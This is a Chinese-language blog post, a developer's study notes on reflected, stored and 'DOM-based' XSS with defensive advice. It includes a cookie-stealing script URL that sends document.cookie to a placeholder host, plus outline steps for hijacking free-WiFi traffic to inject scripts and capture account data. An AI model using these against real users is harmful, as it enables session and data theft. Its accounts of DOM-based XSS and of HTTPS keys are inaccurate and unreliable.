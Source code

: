 ```yaml
---
title: 前端安全之XSS攻击
date: 2017-05-22 19:42:41
categories: "网络安全"
tags:
---
```

觉得自己要慢慢开始接触网络安全的相关内容了罢，以前看到都望而生畏。昨天浏览过后算是消除了一些的恐惧。好像这一块也并不是那么地难，而且也很重要。所以以后看到相关文章，还是可以记录学习的。
<!-- more -->
参考至[前端安全之XSS攻击]www.cnblogs.com/lovesong/p/5199623.html)

## XSS
**XSS**（cross-site scripting跨域脚本攻击）攻击是最常见的Web攻击，其重点是“跨域”和“客户端执行”。有人将XSS攻击分为三种，分别是：

1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

### Reflected XSS
基于反射的XSS攻击，主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击。

#### 例子
1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
1. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
1. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
1. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```

#### 结论：
如果只是1、2、3步做成功，那也只是自己折腾自己而已，如果第4步能做成功，才是个像样的XSS攻击。

**开发安全措施：**

1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

##### 例如：
标签：
```
<span><script>alert('handsome boy')</script></span>
```
转义：
```
<span>&lt;script&gt;alert(&#39;handsome boy&#39;)&lt;/script&gt</span>
```
属性：
如果一个input的value属性值是
```
琅琊榜" onclick="javascript:alert('handsome boy')
```
就可能出现
```
<input type="text" value="琅琊榜" onclick="javascript:alert('handsome boy')">
```
点击input导致攻击脚本被执行，解决方式可以对script或者双引号进行过滤。

### Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

#### 例子
1. 发一篇文章，里面包含了恶意脚本
```
今天天气不错啊！<script>alert('handsome boy')</script>
```
2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

#### 结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：

1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

### DOM-based or local XSS
基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

#### [例子](https://www.cnblogs.com/index-html/p/wifi_hijack_3.htm)
1. 提供一个免费的wifi。
2. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
3. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
4. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
5. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

#### 例子2
1. 还是提供一个免费wifi
1. 在我们电脑上进行抓包
1. 分析数据，可以获取用户的微信朋友圈、邮箱、社交网站帐号数据（HTTP）等。

#### 结论：
这攻击其实跟网站本身没有什么关系，只是数据被中间人获取了而已，而由于HTTP是明文传输的，所以是极可能被窃取的。

开发安全措施：
使用HTTPS！HTTPS会在请求数据之前进行一次握手，使得客户端与服务端都有一个私钥，服务端用这个私钥加密，客户端用这个私钥解密，这样即使数据被人截取了，也是加密后的数据。

## 总结
XSS攻击的特点就是：尽一切办法在目标网站上执行非目标网站上原有的脚本（某篇文章说的）。本地的XSS攻击的示例2其实不算XSS攻击，只是简单流量劫持。前两种XSS攻击是我们开发时候要注意的，而流量劫持的则可以使用HTTPS提高安全性。
